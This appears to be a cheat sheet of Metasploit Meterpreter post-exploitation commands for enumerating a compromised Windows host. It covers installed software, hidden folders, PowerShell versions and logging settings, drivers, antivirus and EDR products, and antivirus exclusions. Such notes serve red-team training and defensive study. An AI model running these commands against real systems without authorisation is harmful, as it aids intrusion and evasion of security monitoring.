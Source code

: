 # Metasploit
Search Tag(s): #post-exploitation #enumeration-and-discovery #metasploit-framework #windows

## 01 - Installed Programs

TODO: Convert the manual methods to meterpreter

### 1.1 - List Installed Software

```
meterpreter > run post/windows/gather/enum_applications

meterpreter > run post/multi/gather/enum_software_versions

meterpreter > run post/windows/gather/enum_chocolatey_applications

meterpreter > run post/windows/gather/wmic_command command="product get name,version,vendor"

meterpreter > reg enumkey [-r <target_IP>] -k HKLM\\SOFTWARE
```

Enumerate OneDrive

```
meterpreter > run post/windows/gather/enum_onedrive
```

### 1.2 - List directories including hidden files and folders

```
meterpreter > ls -R "C:\Program Files"

meterpreter > ls -R "C:\Program Files (x86)"
```

### 1.3 - Find a specific program

File Explorer

```
meterpreter > ls -RS "explorer.exe" C:\\

meterpreter > search -d C:\\ -f explorer.exe
```

Internet Explorer

```
meterpreter > ls -RS "iexplore.exe" C:\\

meterpreter > search -d C:\\ -f iexplore.exe
```

Java Updater

```
meterpreter > ls -RS "jucheck.exe" C:\\

meterpreter > search -d C:\\ -f jucheck.exe
```

Find MSBuild C# compiler versions

```
meterpreter > ls -RS "MSBuild.exe" C:\\

meterpreter > search -d C:\\ -f MSBuild.exe

meterpreter > ls -R %windir%\Microsoft.NET\Framework64

meterpreter > ls %windir%\Microsoft.NET\Framework64\v*

meterpreter > run post/windows/gather/wmic_command command="product get description"

userware@hackware-os:~$ grep ".NET" /root/.msf4/loot/msf-loot-file.txt
```

## 02 - Powershell and .NET

Discover available Powershell engines.

```
meterpreter > reg queryval [-r <target_IP>] -k hklm\\software\\microsoft\\powershell\\1\\powershellengine -v powershellversion

meterpreter > reg queryval [-r <target_IP>] -k hklm\\software\\microsoft\\powershell\\3\\powershellengine -v powershellversion
```

Discover Powershell Logging.

```
meterpreter > reg enumkey [-r <target_IP>] -k HKLM\\SOFTWARE\\Wow6432Node\\Policies\\Microsoft\\Windows\\Powershell\\Transcription

meterpreter > reg enumkey [-r <target_IP>] -k HKLM\\SOFTWARE\\Wow6432Node\\Policies\\Microsoft\\Windows\\PowerShell\\ModuleLogging

meterpreter > reg enumkey [-r <target_IP>] -k HKLM\\SOFTWARE\\Wow6432Node\\Policies\\Microsoft\\Windows\\PowerShell\\ScriptBlockLogging
```

Enumerate available Common Language Runtime (CLR) versions.

```
meterpreter > ls -RS "System.dll" %windir%\Microsoft.Net\Framework\

C:\> reg enumkey [-r <target_IP>] -k "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP\v4\Full Release"
```

## 03 - Device Drivers

### 3.1 - Meterpreter Command

```
meterpreter > execute -Hicf driverquery.exe -a "[/s <IP>] [/u [<DOMAIN>\]username>] [/p <password>] [/v] /fo list"

meterpreter > execute -Hicf driverquery.exe -a "[/s <IP>] [/u [<DOMAIN>\]username>] [/p <password>] /fo table"

meterpreter > execute -Hicf driverquery.exe -a "[/s <IP>] [/u [<DOMAIN>\]username>] [/p <password>] --no-msft"
```

### 3.2 - Powershell Extension

#### 3.2.1 - Execute Powershell Commands

```
meterpreter > powershell_execute 'driverquery.exe [/s <IP>] [/u [<DOMAIN>\]username>] [/p <password>] /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", Start Mode", Path'

meterpreter > powershell_execute 'Get-CimInstance Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMWare*"}'
```

## 04 - Antivirus and EDR

```
meterpreter > service_query WinDefend

meterpreter > run post/windows/gather/enum_av

meterpreter > run post/windows/gather/wmic_command command="/namespace:\\root\securitycenter2 path antivirusproduct"

meterpreter > run post/windows/gather/wmic_command command="/namespace:\\root\securitycenter2 path antivirusproduct get displayname, productState, pathToSignedProductExe"
```

Retrieve exclusions of Windows Security and other antiviruses.

```
meterpreter > run post/windows/gather/enum_av_excluded
```

---
## References

- [[04 - Powershell|Metasploit: Powershell Meterpreter Extension]]

- [Rapid7: Metasploit Framework - Enumerate AV Gather Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/enum_av.md)